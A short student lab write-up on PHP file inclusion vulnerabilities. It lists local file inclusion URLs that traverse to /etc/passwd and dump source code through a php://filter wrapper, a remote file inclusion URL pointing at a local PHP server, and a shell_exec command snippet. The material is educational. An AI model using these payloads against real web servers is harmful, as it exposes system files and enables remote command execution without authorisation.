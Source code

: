 # File Inclusion Vulnerabilities

This lab focuses on how to exploit with file inclusion. In the assignment for this we created a php server. Using this, were were able to pass commands and traverse through directories.

#### **LFI**

**Helpful Commands:**

**Traversing to a file**

```
http://example.com/index.php?page=../../../etc/passwd
```

```
http://example.com/index.php?page=/etc/passwd
```

Displaying source code of index.php

```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```

\*\* This will be in base64, use cyberchef to decode

#### RFI

```
http://example.com/index.php?page=http://127.0.0.1:8000/rfi.php
```

This is only possible if the php config allows remote urls.

#### PHP Server Commands

Setting up a server

```
php -S 127.0.0.1:9000
```

allow_\_url\_include must be on in the config for RFI._

Executing commands on php

<figure><img src="../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

```php
<?php
$output = shell_exec('ls -als');
echo "<pre>$output</pre>";
?>
```
